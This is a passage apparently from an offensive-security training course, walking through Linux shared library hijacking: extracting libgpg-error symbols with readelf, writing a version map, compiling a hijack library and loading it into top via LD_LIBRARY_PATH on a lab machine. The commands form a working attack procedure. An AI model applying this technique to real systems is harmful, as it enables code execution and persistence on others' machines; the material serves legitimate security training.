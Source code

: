 First, we'll run a modified version of our previous readelf command, this time omitting "int" before the symbol names.

```
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gpgrt_onclose;
_gpgrt_putc_overflow;
gpgrt_feof_unlocked;
gpgrt_vbsprintf;
...
```

> Listing 53 - Getting symbol names

This simply provides a list of symbols that we can then "wrap" into a symbol map file for the compiler to use. We'll call this file gpg.map.

```
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;

};
```

> Listing 54 - Symbol map file

The version number for these symbols doesn't have any direct impact on our exploit, but it fulfills the version requirement that is causing our earlier error message.

Once the file is created, we can compile our shared library again and include the symbol file with --version-script.

```
offsec@linuxvictim:~/ldlib$ gcc -Wall -fPIC -c -o hax.o hax.c

offsec@linuxvictim:~/ldlib$ gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

> Listing 55 - Recompiling the shared library with a symbol map

We set our _LD_LIBRARY_PATH_ environment variable as we did before and run the application again.

```
offsec@linuxvictim:~/ldlib$ export LD_LIBRARY_PATH=/home/offsec/ldlib/

offsec@linuxvictim:~/ldlib$ top
DLL HIJACKING IN PROGRESS 
top - 14:55:15 up 9 days,  4:35,  2 users,  load average: 0.01, 0.01, 0.00
Tasks: 164 total,   1 running,  92 sleeping,   0 stopped,   0 zombie
...
```

> Listing 56 - Working correctly
